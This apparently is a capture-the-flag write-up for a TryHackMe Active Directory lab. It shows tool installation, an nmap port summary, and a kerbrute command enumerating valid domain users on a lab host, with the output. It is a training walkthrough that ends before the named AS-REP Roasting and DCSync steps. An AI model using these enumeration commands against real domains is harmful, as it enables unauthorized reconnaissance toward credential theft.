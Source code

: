# Attacktive Directory

- MachineIP: `10.10.209.16`
- OS       : `Windows`
- Exploit  : `AS_REP Roasting, DCSync`

---

> Know basics of kerberos authentication from [here](https://github.com/cyberwr3nch/writeups/tree/main/thm/attacking%20kerberos) before continuing

### Impackets installation

- Installing Impackets

```bash
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ && python3 ./setup.py install
```

- Installing Bloodhound and neo4j (already explained in attacking kerberos writeup)

```bash
sudo apt install bloodhound neo4j
```

### Attacking Active Directory

- After setting up the required tools for attacking active directory lets start attacking it
- Nmap recon, 53`(DNS)`,80`(http)`,88`(kerberos)`,135`(msrpc)`,139`(netbios)`,389 `(LDAP)`,445`(samba)`,464`(kerberos)`,593`(http-rpc)`,636`(secure LDAP)`,3268`(global catalogue LDAP)`,3269`(gloobal catalogue Secure LDAP)`,3389`(ms-wbt-server)`,5985`(wsman)`,9389`(adws)`,47001`(winrm)`
- Nmap outputs the computer name and domin name of the active directory.
- Lets enumerate the valid users in the domain using kerbrute

```bash
# -d = domain
# --dc = domain controller
# -t = threads
# -o = output file
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ kerbrute userenum -d spookysec.local --dc 10.10.209.16 -t 50 userlist.txt -o kerbrute.out

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 05/06/21 - Ronnie Flathers @ropnop

2021/05/06 05:26:07 >  Using KDC(s):
2021/05/06 05:26:07 >   10.10.209.16:88

2021/05/06 05:26:08 >  [+] VALID USERNAME:       james@spookysec.local
2021/05/06 05:26:08 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2021/05/06 05:26:09 >  [+] VALID USERNAME:       James@spookysec.local
2021/05/06 05:26:10 >  [+] VALID USERNAME:       robin@spookysec.local
2021/05/06 05:26:15 >  [+] VALID USERNAME:       darkstar@spookysec.local
2021/05/06 05:26:17 >  [+] VALID USERNAME:       administrator@spookysec.local
2021/05/06 05:26:22 >  [+] VALID USERNAME:       backup@spookysec.local
2021/05/06 05:26:25 >  [+] VALID USERNAME:       paradox@spookysec.local
2021/05/06 05:26:42 >  [+] VALID USERNAME:       JAMES@spookysec.local
2021/05/06 05:26:48 >  [+] VALID USERNAME:       Robin@spookysec.local
2021/05/06 05:27:20 >  [+] VALID USERNAME:       Administrator@spookysec.local
```